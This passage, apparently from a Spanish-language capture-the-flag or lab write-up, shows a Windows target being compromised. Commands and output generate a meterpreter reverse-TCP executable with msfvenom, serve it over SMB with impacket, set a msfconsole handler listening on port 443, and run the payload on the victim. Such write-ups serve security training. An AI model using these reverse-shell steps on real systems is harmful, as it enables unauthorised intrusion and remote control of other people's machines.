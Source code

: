 Generamos la reverse shell con `msfvenom`
```console
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.87 LPORT=443 -f exe > pwn.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

Compartimos este ejecutable mediante SMB con `impacket-smbserver`
```console
sudo impacket-smbserver -smb2support smbFolder .
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

En la máquina víctima, he creado el directorio `C:\Windows\Temp\work` y vamos a copiarlo aquí.
```console
PS C:\windows\temp\work> copy \\10.10.14.87\smbFolder\pwn.exe .
dir
PS C:\windows\temp\work> dir
    Directory: C:\windows\temp\work
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       11/29/2024   9:33 AM           1148 manual_exploit.bat
-a----       11/29/2024   9:39 AM          73802 pwn.exe
```

Preparamos `msfconsole` y nos ponemos en escucha por el puerto 443.
```console
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.87:443
```

Ahora en la máquina víctima simplemente ejecutamos nuestra reverse shell.
```console
PS C:\windows\temp\work> .\pwn.exe
```
